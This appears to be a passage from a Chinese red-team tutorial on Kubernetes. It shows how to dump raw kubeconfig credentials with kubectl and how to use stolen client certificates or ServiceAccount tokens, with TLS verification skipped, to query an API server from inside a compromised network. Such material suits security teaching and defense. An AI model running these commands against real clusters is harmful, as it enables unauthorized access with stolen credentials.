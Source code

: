 ```plain
#因为kubeconfig文件的位置不固定，使用kubectl命令读取kubeconfig文件
kubectl config view --raw
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1664721271883-15f1e2a2-fb1f-4857-94b2-460b15f69358.png)

无论是kubeconfig还是ServiceAccount的Secret，都存在着与API server通信所需要的身份认证凭证，在红蓝对抗中，当我们拿到这些凭证，要如何与API server进行通信呢？

理想的情况下，当我们拿下了Master节点，可以直接使用kubectl命令，它会自动寻找本地存储的kubeconfig文件与API server进行通信：

```plain
#在Master节点上执行如下语句，无需额外参数，kubectl会自动寻找kubeconfig文件
kubectl get node
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1664721935852-37dafcd2-b32f-465a-b640-82047bb29af1.png)

但是当我们还没获取Master节点权限，只是在容器内网中通过漏洞利用或者信息收集获取到身份凭证和API server的地址呢？

<font style="color:rgb(34, 34, 34);">此时可以参考kubeconfig配置中描述的与API server的通信的常用的两种认证方式，并对应到kubectl命令：</font>

+ <font style="color:rgb(34, 34, 34);">Certificates</font>

```plain
#kubeconfig配置
users:
  - name: admin
    user:
      client-certificate-data: <base64 encoded client cert data>
      client-key-data: <base64 encoded client key>

#kubectl通过证书进行身份认证
kubectl --server=https://10.206.0.2:6443 --insecure-skip-tls-verify=true --client-key=kublet.key --client-certificate=kublet.crt get pods --all-namespaces
```

这里获取kubeconfig的client-certificate-data和client-key-data后，base64解码保存到kubelet.crt和kubele.key中，--insecure-skip-tls-verify=true表示不验证服务端证书的有效性。

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1664723344381-4a023354-2b34-4b80-adaa-57cd7ded68b9.png)

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1664723016869-55854dbc-9cfc-4337-9c91-b90ef6bc43da.png)

+ <font style="color:rgb(34, 34, 34);">Authentication tokens</font>

```plain
#kubeconfig配置
users:
  - name: admin
    user:
      token: >_
        dGhpcyBpcyBhIHJhbmRvbSBzZW50ZW5jZSB0aGF0IGlzIGJhc2UgZW5jb2R

#通过token进行身份认证
kubectl --insecure-skip-tls-verify=true --server="https://10.206.0.2:6443" --token="eyJhbGciOiJSU..." get ns
```
